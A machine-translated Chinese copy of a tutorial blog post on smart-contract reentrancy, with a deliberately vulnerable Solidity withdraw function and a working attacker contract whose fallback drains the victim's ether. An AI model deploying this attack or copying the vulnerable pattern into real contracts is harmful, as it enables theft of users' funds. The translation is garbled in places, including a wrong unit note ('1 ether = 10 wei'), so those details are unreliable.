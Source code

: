 # 让我们重新分析一下——耗费数百万美元的智能合约漏洞。

> 原文：<https://medium.com/coinmonks/lets-break-down-re-entrancy-the-smart-contract-vulnerability-that-costed-millions-794870313e27?source=collection_archive---------15----------------------->

![](img/381c718789ef349615840a99d0ea1053.png)

智能合约漏洞可不是闹着玩的。与普通的计算机程序不同，它们需要真金白银。是啊，没错！我经常将智能合同部署与火箭发射联系在一起，火箭发射需要在部署前进行密集的故障测试，一旦发射，就无法收回！

许多漏洞会困扰智能合约——重入就是其中之一。我将使用 Solidity 代码(这种语言对你们中的一些人来说可能是新的，因此我也添加了一个解释)来解释攻击，以避免向你们抛出抽象的概念。不客气🙈。

# 什么是再入攻击？

智能合约的一个令人惊讶的特性是，它们可以通过调用其他合约的功能来相互“交谈”。他们也可以“存储”和发送*乙醚*到不同的外部地址。**这些操作需要合同提交** [**外部调用**](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/) **。**

这些传出的调用可能被攻击者劫持，攻击者可以通过某个其他契约中的[回退函数](https://www.tutorialspoint.com/solidity/solidity_fallback_function.htm)来强制契约做“额外的工作”。

让我们来分解一下—

1.  攻击者可以开发一个包含回退函数中一些邪恶代码行的契约。
2.  每当一个契约发送*以太*到这个契约的地址，它调用回退函数。
3.  并且当恶意代码运行时，它通常执行“调用”或易受攻击的契约的功能。

“重入”这个名字来源于这样一个想法——外部恶意代码迫使易受攻击的契约重复执行一个函数，或者导致代码执行的路径“重入”同一个函数。

我将通过一个实际的例子来帮助您理解安全威胁。

# 让我们见证一次再入攻击！

## 受害者合同

受害合同允许用户存取*乙醚*如下图所示。

```
pragma solidity ^0.8.4;contract Victim { mapping(address => uint256) balances; function deposit() public payable { balances[msg.sender] += msg.value; } function withdraw(uint _amount) public { require(_amount <= balances[msg.sender],"Insufficient balance"); (bool success,) = msg.sender.call{value:_amount}(""); require(success, "Transfer failed."); balances[msg.sender] -= _amount; } function contractBalance() public view returns(uint256){ return address(this).balance; }}
```

如果你知道上面发生了什么，太好了！😄请随意跳到*攻击者*部分。

## **映射(地址= > uint256)**

该映射跟踪用户的平衡。

```
mapping(address => uint256) balances;
```

例如，

{ " 0 xef 43299 ed 551 e 1 DFB c 7 febddc 36 ea 78 EB 7936 b 73 ":300000000000000，" 0 xe G1 a6 e 16 e 1837 F2 DFD 26 cc 0 f 72d 5b 8 fbace 295 ":100000000000000，… }

*注:乙醚以卫表示(1 乙醚= 10 卫)。*

## 存款()

存款功能会增加汇款人的余额。

```
function deposit() public payable { balances[msg.sender] += msg.value;}
```

*注意:存款功能被声明为 payable，这意味着它可以接受乙醚。*

## 提取(_ 金额)

取款功能首先确定发送者是否有足够的余额来提取所需的*乙醚* (_amount)。

```
require(_amount <= balances[msg.sender],"Insufficient balance");
```

现在，合同发送*乙醚* (_amount)到呼叫者的地址——一个外线电话！这是袭击发生的地方😈。

```
(bool success,) = msg.sender.call{value:_amount}("");
```

如果前面的事务失败，下面的 require 语句将抛出一个错误。如果没有，用户余额将相应减少。

```
require(success, "Transfer failed.");balances[msg.sender] -= _amount;
```

# 袭击者

攻击者契约将通过定义一个回退函数来利用受害者契约，使受害者做一些“额外的工作”，如下所示。

```
// SPDX-License-Identifier: MITpragma solidity ^0.8.4;import "./Victim.sol";contract Attacker { Victim public victim; constructor(address _victim) { victim = Victim(_victim); } function attack() public payable{ require(msg.value >= 1 ether); victim.deposit{value:1 ether}(); victim.withdraw(1 ether); } function contractBalance() public view returns(uint256){ return address(this).balance; } fallback() external payable { if(address(victim).balance > msg.value){ victim.withdraw(1 ether);
        } }}
```

我会在解释攻击的同时解释代码。开始了。

## 袭击

攻击者会用一些大于或等于 1 的*醚*来调用攻击函数。让我们假设许多用户已经将*乙醚*存入受害者合同，并且它的当前余额是 5 *乙醚*。

```
1.1 function attack() public payable {1.2require(msg.value >= 1 ether);1.3     victim.deposit{value:1 ether}();1.4     victim.withdraw(1 ether);1.5 }
```

后退是当契约接收到不专用于任何函数的事务时调用的特殊函数，包含普通以太网和无数据。

```
2.1 fallback() external payable {2.2     if(address(victim).balance > msg.value){2.3          victim.withdraw(1 ether);2.4     }2.5 }
```

接下来会发生什么(重要的是每一点对你都有意义。每当你感到失落的时候就去查代码)—

1.  *行 1.3:*a*ttack 函数*用 1 乙醚的 msg.value 和大量气体调用受害者契约的 *deposit 函数*。
2.  *第 1.4 行:*攻击函数调用受害者契约的*撤销函数*，参数为 1 *以太*，受害者将发送 1 *以太*给攻击者(*记住受害者契约中的外部调用！*)。
3.  *第 2.1 行:*对恶意合同的付款将调用*回退功能*。
4.  *第 2.2 行:*受害者契约余额为 4 *乙醚*(将 1 乙醚发送给攻击者后)，所以*如果*条件通过。
5.  *第 2.3 行:**回退函数*再次调用撤销函数，将受害者契约‘重入’(如上图)。
6.  在第二次通话中，呼叫者的余额仍然是 1 *乙醚*(我们还没有移动到外部通话线路的前面！)，所以 require 语句通过。
7.  *第 2.1–2.3 行:*受害者再次发送 1 *乙醚*给攻击者，回退函数再次调用撤销函数…

8.步骤 3–7 重复**直到** *地址(受害者)。天平> 1。*

当访问者契约中只剩下 1 个*乙醚*时，回退函数中的 *if* 语句将失败。

**结果:攻击者在一次交易中窃取了访问者契约中除 1 个*乙醚*之外的所有乙醚。**

如果这些让你困惑，我建议你[在 remix IDE](https://remix.ethereum.org/) 上运行代码，亲自观察攻击。

![](img/c5b6ad64aee36bd281b6276aa66c0bfb.png)

A EtherScan record of internal transactions of the attack on the victim contract.

那就是可重入！✅

在另一篇博客中，我将解释对抗攻击的预防技术。

我希望这篇博客对你有所帮助。如果有任何不正确的信息，不要犹豫发表评论。

谢谢你的时间🙌。

> 加入 Coinmonks [电报频道](https://t.me/coincodecap)和 [Youtube 频道](https://www.youtube.com/c/coinmonks/videos)了解加密交易和投资

# 另外，阅读

*   [最佳以太坊钱包](https://coincodecap.com/best-ethereum-wallets) | [电报上的加密货币机器人](https://coincodecap.com/telegram-crypto-bots)
*   [交易杠杆代币的最佳交易所](https://coincodecap.com/leveraged-token-exchanges) | [购买 Floki](https://coincodecap.com/buy-floki-inu-token)
*   [3 commas vs . Pionex vs . crypto hopper](https://coincodecap.com/3commas-vs-pionex-vs-cryptohopper)|[Bingbon Review](https://coincodecap.com/bingbon-review)
*   [加密复制交易平台](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c) | [如何在 WazirX](/coinmonks/buy-bitcoin-on-wazirx-2d12b7989af1) 上购买比特币
*   [硬币评论](https://coincodecap.com/coinloan-review)|[Crypto.com 评论](/coinmonks/crypto-com-review-f143dca1f74c)
*   [如何在加拿大购买加密货币？](https://coincodecap.com/how-to-buy-cryptocurrency-in-canada)